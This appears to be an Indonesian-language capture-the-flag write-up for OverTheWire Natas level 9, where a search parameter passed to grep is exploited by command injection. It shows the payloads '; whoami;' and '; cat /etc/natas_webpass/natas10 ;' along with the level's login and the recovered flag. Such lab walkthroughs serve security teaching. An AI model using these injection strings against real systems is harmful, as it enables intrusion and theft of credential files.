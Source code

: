 ```yaml
---
layout: default
level: 9
name_file: level
---
```


{% include level-section.html %}

# soal
Username: natas9 \
URL:      http://natas9.natas.labs.overthewire.org

# solve
- use cred natas9:ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6ts
- disini setelah saya login terdapat form pencarian
  ![alt text](docs/images/image-13.png)
- dan ketika saya melihat source codenya
  - terdapat sebuah logika yang dimana ketika kita input tanpa key maka dia akan grep teks, sedangkan ketika ada key dia akan melakukan request "needle"
    ![alt text](docs/images/image-14.png)
- disini bisa kita lihat bahwa pada kode nya melakukan run grep -i $key
  - dan disini karena key nya adalah value dari paramter needle maka saya mencoba ubah value dengan perintah whoami
    ![alt text](docs/images/image-15.png)
    ````; whoami;```
  - yang sebenernya jika kita lakukan di cli nantinya dia akan kaya gini "grep -i ; whoami ; dictionary.txt"
- karena saya sudah tau caranya saya mencoba untuk melakukan cat pada directory password natas_webpass
  ![alt text](docs/images/image-16.png)
  ```
  ; cat /etc/natas_webpass/natas10 ;
  ```
- dan ini adalah outputnya
  ```
  Output:
  Output:
  t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu
  ```

# flag
t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu
